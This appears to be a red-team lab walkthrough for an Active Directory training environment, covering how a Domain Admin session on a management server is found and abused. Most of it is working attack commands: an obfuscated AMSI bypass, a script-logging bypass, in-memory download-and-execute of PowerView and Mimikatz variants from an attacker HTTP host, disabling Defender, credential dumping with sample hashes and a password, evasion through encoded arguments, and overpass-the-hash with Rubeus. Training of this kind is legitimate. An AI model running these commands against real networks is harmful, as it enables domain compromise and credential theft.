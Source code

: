 # LO 7

Identify a machine in the target domain where a Domain Admin session is available.

Compromise the machine and escalate privileges to Domain Admin

* Using access to dcorp-ci
* Using derivative local admin

We got a reverse shell on dcorp-ci as ciadmin by abusing Jenkins.

First bypass Enhanced Script Block Logging so that the AMSI bypass is not logged.&#x20;

The below command bypasses Enhanced Script Block Logging:

```powershell
c:\AD\Tools\hfs.exe C:\AD\Tools\sbloggingbypass.txt
```

```
iex (iwr http://172.16.100.x/sbloggingbypass.txt -UseBasicParsing)
```

Use the below command to bypass AMSI:

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Now, download and execute **PowerView** in memory of the reverse shell and run **FindDomainUserLocation**. Note that, Find-DomainUserLocation may take many minutes to check all the machines in the domain:

```powershell
c:\AD\Tools\hfs.exe C:\AD\Tools\PowerView.ps1
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/PowerView.ps1'))
Find-DomainUserLocation

<# Output example:
UserDomain : dcorp
UserName : svcadmin
ComputerName : dcorp-mgmt.dollarcorp.moneycorp.local
IPAddress : 172.16.4.44
SessionFrom :
SessionFromName :
LocalAdmin :
[snip]#>
```

There is a domain admin session on dcorp-mgmt server.

We can abuse this using [winrs ](lo-7.md#using-winrs)or [PowerShell Remoting](lo-7.md#using-powershell-remoting).

## Abusing domain admin session on dcorp-mgmt&#x20;

### Using winrs

Check if we can execute commands on dcorp-mgmt server and if the **winrm** port is open:

```
winrs -r:dcorp-mgmt hostname;whoami
```

We would now run **SafetyKatz.exe** on dcorp-mgmt to extract credentials from it. For that, we need to copy Loader.exe on dcorp-mgmt. Let's download **Loader.exe** on dcorp-ci and copy it from there to dcorp-mgmt. This is to avoid any downloading activity on dcorp-mgmt.

Run the following command on the reverse shell:

```
c:\AD\Tools\hfs.exe C:\ad\Tools\Loader.exe
iwr http://172.16.100.x/Loader.exe -OutFile C:\Users\Public\Loader.exe
```

Now, copy the Loader.exe to dcorp-mgmt:

```
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```

Using winrs, add the following port forwarding on dcorp-mgmt to avoid detection on dcorp-mgmt:

```
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x"
```

Load and execute SafetyKatz on dcorp-mgmt:

```
$null | winrs -r:dcorp-mgmtC:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

Load and execute SafetyKatz.exe on dcorp-mgmt:

```
c:\AD\Tools\hfs.exe C:\ad\Tools\SafetyKatz.exe
$null | winrs -r:dcorp-mgmt C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa:ekeys exit
```

{% hint style="danger" %}
The last command above could not work due to Windows Defender which can block SafeKatz execution, so we need to pass encoded arguments using **Safety.bat**
{% endhint %}

```
c:\AD\Tools\hfs.exe C:\ad\Tools\Safety.bat

```

{% hint style="info" %}
SAfety.bat is ready but it can be generated using ArgSplit.bat and passing the arguments that need encoding:

<pre><code>C:\AD\Tools>ArgSplit.bat
[!] Argument Limit: 180 characters
[+] Enter a string: <a data-footnote-ref href="#user-content-fn-1">sekurlsa::ekeys</a>
</code></pre>
{% endhint %}

Download the batch file on dcorp-ci. Run the below commands on the reverse shell:

```
iwr http://172.16.100.x/Safety.bat -OutFile C:\Users\Public\Safety.bat
```

Now, copy the Safety.bat to dcorp-mgmt:

```
echo F | xcopy C:\Users\Public\Safety.bat \\dcorp-mgmt\C$\Users\Public\Safety.bat
```

Run Safety.bat on dcorp-mgmt that use Loader.exe to download and execute SafetyKatz.exe in-memory on dcorp-mgmt:

```
$null | winrs -r:dcorp-mgmt "cmd /c C:\Users\Public\Safety.bat"
```

Example output:

```
Authentication Id : 0 ; 61671 (00000000:0000f0e7)
Session           : Service from 0
User Name         : svcadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 2/21/2024 4:32:02 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1118

         * Username : svcadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : *ThisisBlasphemyThisisMadness!!
         * Key List :
           aes256_hmac       6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
           aes128_hmac       [...]
```

### Using PowerShell Remoting

Check if we can run commands on dcorp-mgmt using PowerShell remoting.

```
Invoke-Command -ScriptBlock {$env:username;$env:computername} -ComputerName dcorp-mgmt
```

Now, let's use Invoke-Mimi to dump hashes on dcorp-mgmt to grab hashes of the domain admin "svcadmin".&#x20;

```
c:\AD\Tools\hfs.exe C:\ad\Tools\Invoke-Mimi.ps1
iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
```

Now, to use Invoke-Mimi on dcorp-mgmt, we must disable AMSI there. Please note that we can use the AMSI bypass we have been using or the built-in Set-MpPrefernce as well because we have administrative access on dcorp-mgmt:

```
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
```

```
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
```

```
Invoke-command -ScriptBlock ${function:Invoke-Mimi} -Session $sess
```

Example output:

```
[snip]
Authentication Id : 0 ; 58866 (00000000:0000e5f2)
Session : Service from 0
User Name : svcadmin
Domain : dcorp
Logon Server : DCORP-DC
Logon Time : 3/3/2023 2:39:12 AM
SID : S-1-5-21-719815819-3726368948-3917688648-1118
	* Username : svcadmin
	* Domain : DOLLARCORP.MONEYCORP.LOCAL
	* Password : (null)
	* Key List :
 aes256_hmac
6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
rc4_hmac_nt b38ff50264b74508085d82c69794a4d8
rc4_hmac_old b38ff50264b74508085d82c69794a4d8
rc4_md4 b38ff50264b74508085d82c69794a4d8
rc4_hmac_nt_exp b38ff50264b74508085d82c69794a4d8
rc4_hmac_old_exp b38ff50264b74508085d82c69794a4d8
[snip]
```

Finally, use OverPass-the-Hash to use svcadmin's credentials.

Note that we can use whatever tool we want (Invoke-Mimi, SafetyKatz, Rubeus etc.)

We will use Rubeus in this case. Note that we are passing encoded arguments to Loader to avoid detection.

Run the below command from an **elevated CMD shell** from our local machine:

```
C:\AD\Tools\ArgSplit.bat
[!] Argument Limit: 180 characters
[+] Enter a string: asktgt
```

Run the above commands in the same command prompt session:

```
C:\Windows\system32>set "z=t"
C:\Windows\system32>set "y=g"
C:\Windows\system32>set "x=t"
C:\Windows\system32>set "w=k"
C:\Windows\system32>set "v=s"
C:\Windows\system32>set "u=a"
C:\Windows\system32>set "Pwn=%u%%v%%w%%x%%y%%z%"
```

Using Rubeus:

```
echo %Pwn%
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

A new shell will spawn. Try accessing the domain controller from the new process:

```
winrs -r:dcorp-dc cmd /c set username
```

## Derivative Local Admin



[^1]: 
